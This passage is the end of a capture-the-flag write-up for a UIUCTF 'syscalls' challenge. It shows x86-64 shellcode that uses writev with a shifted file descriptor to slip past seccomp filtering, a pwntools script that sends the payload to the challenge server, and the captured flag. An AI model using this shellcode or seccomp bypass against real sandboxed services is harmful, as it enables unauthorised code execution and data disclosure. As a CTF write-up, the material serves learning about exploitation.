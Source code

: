 ```asm
    shl r10, 0x7
    push r10
    push rax      ; iovec struct
    xor rdi, rdi  ; STDOUT_FILENO
    add rdi, 0x1
    shl rdi, 0x20 ; bypass seccomp restrictions
    add rdi, 0x1
    lea rsi, [rsp] ; add iovec struct
    xor rdx, rdx   ; vlen
    add rdx, 0x1
    xor rax, rax   ; SYS_writev
    add rax, 0x14
    syscall

    ; return properly
    xor rax, rax
    leave
    ret
```

I also added proper return instructions so the program does not segfault anymore. Testing this against the local instance:

```bash
$ ./syscalls < payload 
The flag is in a file named flag.txt located in the same directory as this binary. That's all the information I can give you.
ehlo
```

Cool!

The crafted payload can now be sent to the CTF's remote instance using some pwntools scripting.

```python
from pwn import *

payload = open("payload", "rb").read()

r = remote("syscalls.chal.uiuc.tf", 1337, ssl=True)
r.recv()
r.sendline(payload)
flag = r.recv()
print(flag)
```

```bash
$ python exploit.py
[+] Opening connection to syscalls.chal.uiuc.tf on port 1337: Done
b'uiuctf{a532aaf9aaed1fa5906de364a1162e0833c57a0246ab9ffc}\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
```
